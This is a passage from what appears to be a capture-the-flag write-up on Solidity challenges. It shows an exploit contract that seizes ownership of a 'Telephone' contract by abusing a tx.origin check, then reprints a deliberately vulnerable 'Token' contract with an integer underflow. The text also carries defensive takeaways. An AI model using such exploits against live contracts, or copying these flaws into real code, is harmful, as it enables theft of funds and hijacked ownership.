 **msg.sender-** Gives address of the account that is called current message/tx.\
```
EOA -> contract A -> contract B
```
In the above illustration, msg.sender and tx.origin of contract A is the EOA. Whereas for contract B, msg.sender is contract A and tx.origin is EOA. Since the `Telephone` contract only checks for the tx originator not to be equal to the message sender, one middle contract is enough to claim the ownership.
##### Exploit
```
contract AttackTelephone {
    constructor(Telephone target) {
      target.changeOwner(tx.origin);
        require(target.owner() == msg.sender, "Attack failed");
    }
}
```
1. Deploy the above contract with the `Telephone` contract instance as a constructor parameter.
Just like that ownership is transferred.
##### Takeaway
It is recommended to use `msg.sender` for access checks instead of `tx.origin`. Phishing attack like fooling a user to send tx for different purposes and making an internal tx to the target contract leads to passing checks that use `tx.origin`.

# 5. Token
### Challenge
- Hack Token contract to get additional tokens than allotted.
### Purpose
Know the risk of integer overflow/underflow in solidity.
### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
### Solution
##### Explanation
Before solidity v0.8.0, there is no default check for integer overflow/underflow ([link](https://docs.soliditylang.org/en/v0.8.0/080-breaking-changes.html#solidity-v0-8-0-breaking-changes)).\